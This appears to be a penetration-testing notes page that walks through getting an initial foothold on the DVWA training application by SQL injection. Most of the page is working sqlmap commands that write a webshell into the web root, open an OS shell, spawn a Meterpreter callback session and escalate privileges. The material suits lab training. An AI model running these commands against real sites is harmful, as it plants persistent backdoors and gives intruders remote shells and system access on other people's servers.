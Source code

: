 # 05 - Initial Foothold

Search Tag(s): #sql-injection #sqlmap #initial-foothold #persistence #webshell #dvwa

## 5.1 - Webshell

### 5.1.1 - Conditions

1. The DB user must have **FILE** and **SELECT** privileges with the flags `--privileges -U CU`.
2. Find the web root directory using the enumeration methods.
3. The web root directory must have write permissions.

### 5.1.2 - Upload a specific Webshell

Refer to this [[Webshells Payloads|link]] to generate interactive weevely webshells and click [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/02 - Callback Shells/Webshells/Weevely/00 - Help Menu|here]] for post exploitation section.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-write="/path/to/webshell.php" --file-dest="/var/www/html/dvwa/shell.php"
```

### 5.1.3 - Spawn an Interactive Webshell

TODO: Provide **\[INFO\]** logs to demonstrate a different between a file web stager (the uploader file) and a backdoor (an interactive shell)

Great thing about SQLMap that not only it uploads an interactive **web backdoor (the webshell)** it also comes with the **web file stager (the uploader)**.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --os-shell --web-root="/var/www/html/dvwa/"
```

### 5.1.4 - Spawn a Meterpreter Shell

- Start a shell handler listener in Metasploit to retrieve a callback meterpreter session.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --os-pwn --web-root="/var/www/html/dvwa/"
```

Note: when using the `--priv-esc` flag this is for targeting Windows operating systems to automate using the `getsystem` function for impersonation.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --random-agent --os-pwn --web-root="/var/www/html/dvwa/" --priv-esc
```
